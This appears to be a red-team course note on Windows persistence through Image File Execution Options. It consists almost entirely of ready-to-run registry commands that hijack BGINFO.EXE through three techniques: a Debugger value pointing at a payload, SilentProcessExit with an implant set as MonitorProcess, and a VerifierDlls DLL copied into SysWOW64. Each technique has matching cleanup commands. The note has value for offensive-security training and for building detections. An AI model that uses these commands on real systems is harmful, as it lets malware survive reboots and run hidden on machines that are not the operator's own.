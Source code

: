 > [!NOTE] UNKNOW

IFEO (Image File Execution Options)

---
**DEBUGGER**:
setup:

```c
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /v Debugger /d "C:\pers\payload.exe" /reg:32
```

removal:

```http
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /f /reg:32
```

---
**SILENPROCESSEXIT**:
Setup:

```c
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /v GlobalFlag /t REG_DWORD /d 512 /reg:32

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\BGINFO.EXE" /v MonitorProcess /d "C:\rto\PERS\implant\implant.exe" /reg:32

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\BGINFO.EXE" /v ReportingMode /t REG_DWORD /d 1 /reg:32
```

removal:

```http
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /f /reg:32
```

```http
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\BGINFO.EXE" /f /reg:32
```

---
**VERIFIER**:
setup:

```c
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /v VerifierDlls /d "vrf.dll" /reg:32 /f

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /v GlobalFlag /t REG_DWORD /d 256 /reg:32

copy c:\RTO\PERS\02.ADMIN\verifier\vrf.dll c:\windows\SysWOW64
```

Removal:

```http
del c:\windows\SysWOW64\vrf.dll
```

```http
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\BGINFO.EXE" /f /reg:32
```
